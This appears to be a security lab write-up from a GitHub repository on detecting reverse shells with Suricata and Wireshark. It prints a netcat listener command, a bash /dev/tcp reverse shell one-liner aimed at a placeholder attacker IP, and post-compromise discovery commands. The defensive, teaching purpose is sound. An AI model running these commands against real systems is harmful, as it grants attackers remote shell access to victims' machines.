





# Case 05 - Reverse Shell Detection

## 📌 Overview

This case file outlines the operational security mechanics involved in capturing, analyzing, and identifying interactive **Reverse Shell Activity**. Reverse shells are highly effective post-exploitation utilities. Instead of awaiting incoming listener connections—which are heavily mitigated by corporate perimeter firewalls—the compromised inside host initiates an outbound stream back to an attacker-controlled listener infrastructure, effectively granting the threat actor immediate remote shell access.

The objective of this module is to spawn an outbound command-line channel, route the interactive stream over a non-standard network listener port, monitor the traffic flows via the **Suricata NIDS network logging engine**, and reconstruct the session transcripts through **Wireshark stream reassembly**.

---

## ⚔️ Attack Simulation & Environment Baseline

### Phase 1: Listener Provisioning & Sniffing Ingestion

To lay the network detection groundwork, the analysis environment initializes a baseline wire capture loop inside Wireshark to guarantee continuous frame collection across the target monitoring boundaries.



Concurrently, an offensive terminal handler spawns an open socket listener utility (`netcat`) assigned to intercept incoming connections over a predefined target raw port:

```bash
nc -lvnp 4444
```

The screenshot below shows the Netcat listener waiting for incoming connections.



---

### Phase 2: Execution and Stream Shell Attachment

From the target host interface, a payload script utilizes native system command shells (`bash`) to point file descriptor parameters outbound toward the waiting external network socket handler:

```bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```

The following screenshot shows the reverse shell payload being executed.



The offensive staging endpoint captures the incoming session sequence, opening up interactive command-line access into the target system environment.



To demonstrate unauthorized command execution capability, a series of system discovery actions are run across the active transport pipeline:

```bash
whoami
hostname
pwd
id
```

The screenshot below shows commands executed through the established reverse shell.



---

## 🛡️ Case Profile Summary

- **Simulated Threat:** Outbound Reverse Shell / Interactive Command & Control Channel
- **Target Protocol Inspected:** Raw TCP Stream Execution (Port 4444)
- **MITRE ATT&CK Mapping:** `T1059` – Command and Scripting Interpreter & `T1071` – Application Layer Protocol
- **Classification Status:** High Severity Security Incident
- **Severity Evaluation:** 🔴 Critical Threat Vector

---

## 📖 Case Documentation & References

To review detailed analyst triage steps, raw byte dissections, or behavioral matrix mappings, navigate through the target files below:

- 🕵️ **Investigation Report:** [Investigation.md](Investigation.md)
- 🛡️ **MITRE ATT&CK Mapping:** [MITTRE-Mapping.md](MITTRE-Mapping.md)
